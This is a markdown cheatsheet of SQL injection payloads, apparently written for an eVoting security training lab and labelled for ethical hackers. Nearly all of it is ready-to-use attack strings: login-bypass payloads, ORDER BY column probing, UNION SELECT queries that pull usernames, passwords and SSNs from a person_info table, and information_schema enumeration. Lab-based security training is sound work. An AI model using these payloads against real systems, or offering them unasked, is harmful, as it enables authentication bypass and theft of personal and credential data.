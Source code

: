 # eVoting Security Lab - Payload Cheatsheet 🔥

## 🎯 Quick Reference Guide for Ethical Hackers

---

## 🔍 SQL Injection Payloads

### Authentication Bypass
```sql
-- Classic OR bypass
admin' OR '1'='1
admin' OR '1'='1'--
admin' OR '1'='1'#
admin' OR 1=1--
admin'--
' OR 1=1--
' OR '1'='1
') OR ('1'='1
admin' OR 'x'='x
' OR 1=1#

-- Always true conditions
' OR 'a'='a
' OR 'foo'='foo'--
' OR 1=1 LIMIT 1--

-- Admin targeting
admin' AND 1=1--
admin' AND '1'='1'--
```

### Union-Based Injection
```sql
-- Determine column count
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
(continue until error)

-- Union select
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--

-- Extract data from person_info
admin' UNION SELECT CitizenNum,Username,Password,SSN,FirstName,LastName,1,2,3 FROM person_info--

-- Extract all users
' UNION SELECT GROUP_CONCAT(Username),GROUP_CONCAT(Password),1,2,3,4,5,6,7 FROM person_info--

-- Get table names
' UNION SELECT table_name,1,2,3,4,5,6,7,8 FROM information_schema.tables WHERE table_schema='evoting'--

-- Get column names
' UNION SELECT column_name,1,2,3,4,5,6,7,8 FROM information_schema.columns WHERE table_name='person_info'--
```
